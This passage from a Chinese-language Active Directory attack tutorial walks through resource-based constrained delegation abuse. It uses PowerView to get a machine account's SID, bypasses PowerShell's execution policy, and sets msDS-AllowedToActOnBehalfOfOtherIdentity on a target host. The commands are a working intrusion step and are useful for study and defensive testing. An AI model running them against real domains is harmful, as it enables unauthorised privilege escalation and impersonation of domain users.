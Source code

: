 ### 获取SID

这里获取新加入的这太主机的SID值，这里获取到的SID值是：S-1-5-21-1695257952-3088263962-2055235443-1602

```
Set-ExecutionPolicy Bypass -Scope Process  ##如果出现报错，就执行这条命令，再执行下面的命令。
Import-Module .\PowerView.ps1
Get-NetComputer test1 -Properties objectsid
```

![image-20230807094314439](assets/image-20230807094314439.png)

### 修改委派属性

这里就是设置委派，修改DATA的属性，仔细看下面的命令，主要要修改的一个是DATA也就是你目标主机的机器名，还有一个就是SID值，这里将SID值修改为刚刚上面我们自己添加的那台主机的SID值。

```
Set-ExecutionPolicy Bypass -Scope Process
import-module .\powerview.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1602)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![image-20230807095021341](assets/image-20230807095021341.png)
